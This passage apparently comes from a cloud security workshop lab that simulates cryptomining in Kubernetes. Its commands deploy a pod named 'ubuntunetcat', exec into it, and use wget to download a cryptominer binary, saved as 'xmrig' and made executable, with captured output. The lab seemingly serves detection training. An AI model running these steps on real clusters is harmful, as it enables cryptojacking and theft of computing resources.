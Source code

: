```bash
kubectl apply -f ubuntunetcat.yaml
```

Run the following command to check if the pod is running.

```bash
kubectl get pod
```

::::expand{header="Check Output"}

```bash
WSParticipantRole:~/environment $ kubectl get pod
NAME                                            READY   STATUS    RESTARTS   AGE
ubuntunetcat                                    1/1     Running   0          32s
```

::::

Run the following command to exec into the above pod.

```bash
kubectl exec -it ubuntunetcat -- /bin/bash
```

Then execute the following commands inside the pod.

```bash
wget -O xmrig https://github.com/cnrig/cnrig/releases/download/v0.1.5-release/cnrig-0.1.5-linux-x86_64
chmod +x xmrig
```

::::expand{header="Check Output"}

```bash
--2023-07-03 11:51:40--  https://github.com/cnrig/cnrig/releases/download/v0.1.5-release/cnrig-0.1.5-linux-x86_64
Resolving github.com (github.com)... 192.30.255.112
Connecting to github.com (github.com)|192.30.255.112|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/128983339/a48be568-499e-11e8-824c-7aa62378d6b3?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20230703T115140Z&X-Amz-Expires=300&X-Amz-Signature=297111c3371aa55b97ee80fc2b914f5cf92aa93fa82e8092b7d87741086a128d&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=128983339&response-content-disposition=attachment%3B%20filename%3Dcnrig-0.1.5-linux-x86_64&response-content-type=application%2Foctet-stream [following]
--2023-07-03 11:51:40--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/128983339/a48be568-499e-11e8-824c-7aa62378d6b3?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20230703T115140Z&X-Amz-Expires=300&X-Amz-Signature=297111c3371aa55b97ee80fc2b914f5cf92aa93fa82e8092b7d87741086a128d&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=128983339&response-content-disposition=attachment%3B%20filename%3Dcnrig-0.1.5-linux-x86_64&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.110.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2731128 (2.6M) [application/octet-stream]
Saving to: 'xmrig'

xmrig                                100%[=====================================================================>]   2.60M  --.-KB/s    in 0.07s

2023-07-03 11:51:40 (38.7 MB/s) - 'xmrig' saved [2731128/2731128]

```
